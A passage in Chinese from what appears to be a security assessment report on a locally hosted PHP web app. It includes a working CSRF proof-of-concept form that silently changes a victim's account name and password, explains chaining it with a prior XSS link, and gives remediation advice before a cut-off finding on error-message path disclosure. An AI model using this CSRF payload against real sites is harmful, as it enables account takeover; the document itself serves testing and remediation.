 ``http://127.0.0.1:5678/``, view_article.php, signup.html, personal.php, update.php

**漏洞验证：**

构造一个恶意的页面，让用户去访问来实现更改密码的操作。

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:5678/upinsert.php" method="POST">
      <input type="hidden" name="username" value="cba" />
      <input type="hidden" name="oldpassword" value="123" />
      <input type="hidden" name="newpassword" value="1234" />
      <input type="hidden" name="repassword" value="1234" />
      <input type="hidden" name="name" value="cba" />
      <input type="hidden" name="email" value="ava&#64;nl" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

当用户abc登录后(原密码为123)，再去访问我们构造的恶意页面，点击后就会将其账号，姓名改为我们设定的cba，密码改为了我们设定的1234。从而达到了一个简单的CSRF攻击。    **这里有问题，要已经知道密码。(得视情况，如果有的系统没有原密码认证，可以利用这个方法)**

我们可以利用之前XSS来生成一个链接，当其他用户点击时就会进入我们构造的恶意的页面。

[![hGWMq0.png](https://z3.ax1x.com/2021/08/29/hGWMq0.png)](https://imgtu.com/i/hGWMq0)

[![hGWlZV.png](https://z3.ax1x.com/2021/08/29/hGWlZV.png)](https://imgtu.com/i/hGWlZV)

现在我们的用户abc已上线

[![h3OZm4.png](https://z3.ax1x.com/2021/08/28/h3OZm4.png)](https://imgtu.com/i/h3OZm4)

当他查看文章并点击到我们构造的链接后将会跳转到我们构造的恶意页面，点击时会触发我们的修改资料进行修改：

[![h3Ot7d.png](https://z3.ax1x.com/2021/08/28/h3Ot7d.png)](https://imgtu.com/i/h3Ot7d)

[![h3XFUA.png](https://z3.ax1x.com/2021/08/28/h3XFUA.png)](https://imgtu.com/i/h3XFUA)

可以看到修改成功。

**修复建议：**

验证 HTTP Referer 字段，在请求地址中添加 token 并验证。

#####  应用程序错误消息 

**风险等级：**

中

**漏洞描述：**

攻击者通过伪造包含非应用程序预期的参数或参数值的请求，对该请求的响应中获取有用的信息，且可利用该信息，以找出应用程序的弱点。

这里可通过错误信息将网站绝对路径暴露。

**漏洞位置：**
